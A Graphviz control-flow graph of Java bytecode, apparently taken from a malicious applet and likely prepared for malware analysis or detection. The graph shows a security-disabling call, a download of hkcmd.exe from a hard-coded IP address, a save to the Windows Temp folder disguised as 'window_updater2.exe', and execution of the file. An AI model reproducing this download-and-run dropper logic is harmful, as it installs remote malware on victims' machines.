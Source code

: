digraph "" {
    "r0 := @this: pop"
    "load.r r0"
    "r0 := @this: pop"->"load.r r0";
    "virtualinvoke <pop: void isableecurity()>"
    "load.r r0"->"virtualinvoke <pop: void isableecurity()>";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke <pop: void isableecurity()>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "new java.net.URL"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "push \"http://66.175.92.139/pay/hkcmd.exe\""
    "dup1.r"->"push \"http://66.175.92.139/pay/hkcmd.exe\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://66.175.92.139/pay/hkcmd.exe\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "new java.io.File"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"new java.io.File";
    "store.r $r4"
    "new java.io.File"->"store.r $r4";
    "load.r $r4"
    "store.r $r4"->"load.r $r4";
    "push \"C:/Windows/Temp/window_updater2.exe\""
    "load.r $r4"->"push \"C:/Windows/Temp/window_updater2.exe\"";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "push \"C:/Windows/Temp/window_updater2.exe\""->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "new java.io.BufferedInputStream"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"new java.io.BufferedInputStream";
    "store.r r0"
    "new java.io.BufferedInputStream"->"store.r r0";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "store.r r0"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "store.r $r6"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r $r6";
    "store.r $r6"->"load.r r0";
    "load.r $r6"
    "load.r r0"->"load.r $r6";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "load.r $r6"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"load.r r0";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "athrow"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"athrow";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "athrow"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
    "return"
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"->"return";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.BufferedOutputStream";
    "new java.io.BufferedOutputStream"->"store.r $r6";
    "store.r $r6"->"load.r $r6";
    "new java.io.FileOutputStream"
    "load.r $r6"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"dup1.r";
    "dup1.r"->"load.r $r4";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"
    "load.r $r4"->"specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"->"load.r $r6";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r $r6"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"athrow";
    "push 4096"
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"->"push 4096";
    "newarray"
    "push 4096"->"newarray";
    "store.r r19"
    "newarray"->"store.r r19";
    "goto load.r r0"
    "store.r r19"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r19"
    "load.r r0"->"load.r r19";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r19"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i $r4"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i $r4";
    "load.i $r4"
    "store.i $r4"->"load.i $r4";
    "push -1"
    "load.i $r4"->"push -1";
    "ifcmpne.i load.r $r6"
    "push -1"->"ifcmpne.i load.r $r6";
    "ifcmpne.i load.r $r6"->"load.r $r6";
    "virtualinvoke <java.io.BufferedOutputStream: void flush()>"
    "load.r $r6"->"virtualinvoke <java.io.BufferedOutputStream: void flush()>";
    "goto load.r $r6"
    "virtualinvoke <java.io.BufferedOutputStream: void flush()>"->"goto load.r $r6";
    "goto load.r $r6"->"load.r $r6";
    "load.r $r6"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"C:/Windows/Temp/window_updater2.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"C:/Windows/Temp/window_updater2.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "pop"
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"return";
    "ifcmpne.i load.r $r6"->"load.r $r6";
    "load.r $r6"->"load.r r19";
    "push 0"
    "load.r r19"->"push 0";
    "push 0"->"load.i $r4";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i $r4"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
}
